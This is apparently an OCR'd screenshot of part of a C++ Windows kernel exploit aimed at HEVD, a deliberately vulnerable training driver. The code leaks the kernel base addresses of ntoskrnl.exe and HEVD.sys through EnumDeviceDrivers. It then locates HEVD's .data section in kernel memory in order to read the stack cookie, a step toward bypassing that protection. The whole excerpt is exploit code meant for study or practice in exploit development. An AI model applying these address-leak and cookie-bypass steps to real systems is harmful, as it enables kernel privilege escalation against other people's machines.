 ```cpp

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        for (int i = 0; i < cbNeeded / sizeof(LPVOID); i++) {
            char szDriver[0x100] = { 0 }; // Again, more than enough
            GetDeviceDriverBaseNameA(drivers[i], szDriver, 0x100);
            if (strcmp("ntoskrnl.exe", szDriver) == 0) {
                ntoskrnlBase = drivers[i];
                printf("[+] Found ntoskrnl.exe at: 0x%p\n", ntoskrnlBase);
            }
            if (strcmp("HEVD.sys", szDriver) == 0) {
                hevdBase = drivers[i];
                printf("[*] Found HEVD.exe at: 0x%p\n", hevdBase);
            }
            if (hevdBase && ntoskrnlBase) break;
        }
    } else {
        printf("[-] Failed EnumDeviceDrivers: %d\n", GetLastError());
        bResult = FALSE;
        goto _cleanup;
    }

    if (!hevdBase) {
        printf("[-] Failed to find the base of HEVD.sys\n");
        bResult = FALSE;
        goto _cleanup;
    }
    if (!ntoskrnlBase) {
        printf("[-] Failed to find the base of ntoskrnl.exe\n");
        bResult = FALSE;
        goto _cleanup;
    }


    // Find HEVD.sys _data section to read the stack cookie
    HANDLE hHevdLocalBase = LoadLibraryExA("C:\\Users\\User\\Desktop\\HEVD.sys", NULL, DONT_RESOLVE_DLL_REFERENCES);
    if (!hHevdLocalBase) {
        printf("[-] Failed to load local HEVD.sys: %d\n", GetLastError());
        bResult = FALSE;
        goto _cleanup;
    }
    printf("[*] Loaded local HEVD.sys\n");
    printf("[+] Searching for .data section offset\n");
    PIMAGE_NT_HEADERS hevdImageHeader = (PIMAGE_NT_HEADERS)((ULONG_PTR)hHevdLocalBase + ((PIMAGE_DOS_HEADER)hHevdLocalBase)->e_lfanew);
    ULONG_PTR hevdSectionLocation = IMAGE_FIRST_SECTION(hevdImageHeader);
    DWORD hevdDataSectionOffset = 0;

    for (int i = 0; i < hevdImageHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hevdSection = (PIMAGE_SECTION_HEADER)hevdSectionLocation;
        if (strcmp(hevdSection->Name, ".data") == 0) {
            hevdDataSectionOffset = hevdSection->VirtualAddress;
        }
        hevdSectionLocation += sizeof(IMAGE_SECTION_HEADER);
    }
    if (hevdDataSectionOffset == 0) {
        printf("[-] Failed locating the .data section of hevd.sys locally\n");
        bResult = FALSE;
        goto _cleanup;
    }
    printf("[*] Offset of .data section of hevd.sys is: %d\n", hevdDataSectionOffset);
    intptr_t hevdDataSection = hevdDataSectionOffset + (intptr_t)hevdBase;
    printf("[*] The .data section of hevd.sys in the kernel is at: 0x%llx\n", hevdDataSection);
```